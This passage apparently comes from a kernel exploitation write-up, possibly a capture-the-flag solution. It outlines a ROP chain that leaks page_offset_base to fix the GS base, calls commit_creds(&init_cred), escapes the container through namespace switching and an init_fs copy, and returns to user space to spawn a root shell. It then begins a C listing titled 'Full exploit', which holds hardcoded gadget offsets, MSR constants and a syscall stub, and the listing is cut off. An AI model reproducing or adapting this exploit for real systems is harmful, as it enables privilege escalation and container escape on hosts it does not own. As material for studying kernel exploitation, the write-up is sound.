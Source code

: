 The ROPchain must:
- fix GS, to do so you can use an Arbitrary Read gadget (I jumped in the middle of `rep_movs_alternative` which is used in copy_to/from_user) to leak page_offset_base and then add 0x3ea00000 to get the actual GS base (yeah, GS' phys address is predictable)
- escalate privileges: `commit_creds(&init_cred)`
- escape container
	- change shell's namespace
	- assign a copy of `init_fs` struct to exploit task
- ret2user

Now `system("/bin/sh")` and profit :)

## Full exploit
```c
// #define DBG
#include  "kpwn.c"
  
#define MSR_SYSCALL_MASK 0xc0000084
#define MSR_GS_BASE 0xc0000101
  
#define EFLAGS_MASK 0x257fd5  ^  0x40000
#define KERNEL_GS 0x10000
#define GS_SIZE 0x2d000
  
#define PHYS_GS 0x3ea00000
  
#define POP_RSP 0xfe760
#define POP_RDI 0xda228d
#define POP_RSI 0x2527cc
#define POP_RCX 0xa3e793
#define POP_RDX 0x67ad92
  
#define ADD_DWORD_RSIRDX1_ESI 0xaa4063
#define REP_MOVS_ALTERNATIVE 0x101ed10
#define PAGE_OFFSET_BASE 0x19ea178
#define WRMSR 0x1201886
  
#define INIT_CRED 0x1c501d0
#define COMMIT_CREDS 0xcd3b0
#define FIND_TASK_BY_VPID 0xbf9a0
#define MOV_QWORD_RDI_RAX REP_MOVS_ALTERNATIVE+3
#define INIT_NSPROXY 0x1c4fd10
#define SWITCH_TASK_NAMESPACES 0xca960
#define INIT_FS 0x1d71f20
#define COPY_FS_STRUCT 0x31e6b0
#define SWAPGS_AND_SHIT 0x12015d0  +  0x67
  
  
void  win(){
	system("/bin/sh");
}
  
void  naked_syscall(){
	asm  volatile (
		".intel_syntax  noprefix\n"
		"mov  rax, 0x6969\n"
		"syscall\n"
		".att_syntax  prefix\n"
		:
		:
		: "rax"
	);
}
  
```